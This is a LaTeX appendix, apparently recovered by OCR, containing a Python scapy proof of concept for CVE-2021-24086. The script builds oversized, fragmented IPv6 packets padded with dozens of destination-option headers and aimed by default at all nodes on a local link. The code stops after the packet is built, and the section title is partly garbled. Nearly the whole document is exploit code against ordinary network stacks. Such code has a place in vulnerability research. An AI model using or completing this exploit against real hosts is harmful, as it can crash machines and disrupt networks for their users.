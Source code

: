 \documentclass{report}
\begin{document}
\section{ for CVE-2021-24086}
\label{appendix:poc}
\begin{verbatim}
from scapy.all import *
import argparse

def custom_fragment6(target, frag_id, bytes, nh, frag_size = 1008):
    assert (frag_size % 8) == 0
    rest = bytes
    offset = 0
    frags = []

    while len(rest) > 0:
        chunk = rest[: frag_size]
        rest = rest[len(chunk): ]
        last_pkt = len(rest) == 0

        # 0 -> No more fragments
        # 1 -> More fragments
        m = 0 if last_pkt else 1
        assert offset < 8191
        pkt = Ether() \
            / IPv6(dst = target) \
            / IPv6ExtHdrFragment(m = m, nh = nh, id = frag_id, offset = offset) \
            / chunk

        offset += (len(chunk) // 8)
        frags.append(pkt)
    return frags

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('--target', default = 'ff02::1')
    parser.add_argument('--iface', default = 'eth1')
    
    args = parser.parse_args()

    first_fragment_id = random.randint(0, 0xffffffff)
    second_fragment_id = random.randint(0, 0xffffffff)

    packet1 = IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])

    for i in range(35):
        packet1 /= IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])
    
    packet1 /= IPv6ExtHdrDestOpt(options = [
            PadN(optdata=('a'*0xff)),
            PadN(optdata=('a'*0xff)),
        ])
    packet1 /= IPv6ExtHdrFragment(
        id = second_fragment_id, m = 1,
        nh = 17, offset = 0
    ) \
    / UDP(dport = 31337, sport = 31337, chksum=0x7e7f)


\end{verbatim}
\end{document}
